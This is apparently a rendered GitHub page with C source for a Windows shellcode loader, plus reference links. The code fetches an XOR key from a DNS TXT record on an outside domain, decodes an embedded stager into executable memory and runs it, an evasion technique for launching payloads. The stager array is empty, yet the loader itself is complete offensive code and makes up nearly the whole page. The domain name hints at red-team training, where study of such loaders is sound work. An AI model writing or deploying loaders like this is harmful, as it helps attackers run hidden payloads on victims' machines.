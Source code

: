 ```
#include <windows.h>
#include <windns.h>

unsigned char stager[] = { };

DWORD getKey(void) {
	PDNS_RECORD txtData;
	DNS_STATUS status;

	
	status = DnsQuery_A("ironbank.training", DNS_TYPE_TEXT, DNS_QUERY_STANDARD, NULL, &txtData, NULL);
	if (status != 0) {
		return 0;
	}

	
	return *(DWORD*)(*txtData->Data.Txt.pStringArray);
}

void decode(DWORD key, const char *input, char *output, DWORD len) {
	int i = 0;

	for (i = 0; i < len; i+=4) {
		*(DWORD*)(output+i) = *(DWORD *)(input+i) ^ key;
		key++;
	}
}

int main()
{
	DWORD oldProtect;
	void* decryptedStager;

	decryptedStager = VirtualAlloc(NULL, sizeof(stager), MEM_RESERVE | MEM_COMMIT, PAGE_EXECUTE_READWRITE);
	//VirtualProtect(stager, sizeof(stager), PAGE_EXECUTE_READ, &oldProtect);
	//int (*shellcode)() = (int(*)())(void*)stager;
	decode(getKey(), stager, (char*)decryptedStager, sizeof(stager));
	int (*shellcode)() = (int(*)())(void*)decryptedStager;
	shellcode();
}
```
# References


* [DnsQuery_W function] (https://docs.microsoft.com/en-us/windows/win32/api/windns/nf-windns-dnsquery_w)
* [Memory Protection] (https://docs.microsoft.com/en-us/windows/win32/memory/memory-protection-constants)
* [Windows Shellcode] (https://www.contextis.com/en/blog/a-beginners-guide-to-windows-shellcode-execution-techniques)
